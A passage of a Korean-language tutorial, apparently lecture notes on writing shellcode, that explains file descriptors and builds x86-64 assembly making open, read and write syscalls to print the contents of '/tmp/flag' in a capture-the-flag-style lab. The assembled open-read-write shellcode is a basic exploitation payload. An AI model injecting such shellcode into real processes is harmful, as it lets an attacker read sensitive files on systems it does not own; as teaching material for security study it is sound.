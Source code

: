 ```
mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)
```

<br>

> ## **fd란?**
> ### **파일 서술자(File Descriptor, fd)** 는 유닉스 계열의 운영체제에서 파일에 접근하는 소프트웨어에 제공하는 가상의 접근 제어자이다.
> ### 프로세스마다 고유의 서술자 테이블을 갖고 있으며, 그 안에 여러 파일 서술자를 저장하는데 각각 번호로 구별한다.
> ### 일반적으로 0번은 일반 입력(Standard INPUT, STDIN), 1번은 일반 출력(Standard OUTPUT,STDOUT), 2번은 일반 오류(Standard error, STDERR)에 할당되어 있다.
> ### 이들은 프로세스를 터미널과 연결해 주는데 그래서 우리는 키보드 입력을 통해 프로세스에 입력을 전달하고, 출력을 터미널로 받아 볼 수 있다.

<br>

## write

<br>

### 출력은 stdout으로 할 것이므로 rdi를 0x1로 설정하고, rsi와 rdx는 read에서 사용한 것을 그대로 사용, rax는 write syscall을 호출하기 위해 1로 설정한다.

<br>

```
mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

<br>

### 위의 open, read, write를 모두 종합하면 아래와 같다.

<br>

```
push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)
mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)
mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```
